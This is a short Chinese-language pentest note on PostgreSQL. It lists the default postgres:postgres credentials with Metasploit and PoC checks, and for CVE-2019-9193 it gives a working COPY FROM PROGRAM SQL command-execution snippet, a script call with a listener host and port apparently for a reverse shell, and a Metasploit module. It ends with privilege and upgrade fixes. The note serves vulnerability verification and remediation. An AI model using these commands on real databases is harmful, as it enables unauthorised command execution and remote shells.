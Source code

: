 # PostgreSQL
PostgreSQL是一个流行的开源关系数据库，默认端口5432
## 弱口令漏洞
### 漏洞说明
postgresql默认账户为 postgres:postgres
### 涉及范围
/
### 验证方法
msfconole:
`auxiliary/scanner/postgres/postgres_login`
pocsuite:
`poc_postgresql_weakpass.py`
python(parrot):
python parrot.py


## 后台命令执行漏洞 CVE-2019-9193
### 漏洞说明
PostgreSQL其9.3到11版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。
### 涉及范围
9.3到11

### 验证方法
**手动验证**
```sql
# 登录到postgresql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```
**脚本**
other/cve-2019-9193.py

`python CVE-2019-9193.py -u 127.0.0.1 --lhost 10.37.129.2 --lport 4444`

**msfconsole**
multi/postgres/postgres_copy_from_program_cmd_exec

### 修复措施

**临时修复措施**

取消用户关于pg_read_server_files、pg_write_server_files、pg_execute_server_program的权限

**正式修复措施**

升级postgresql至11以上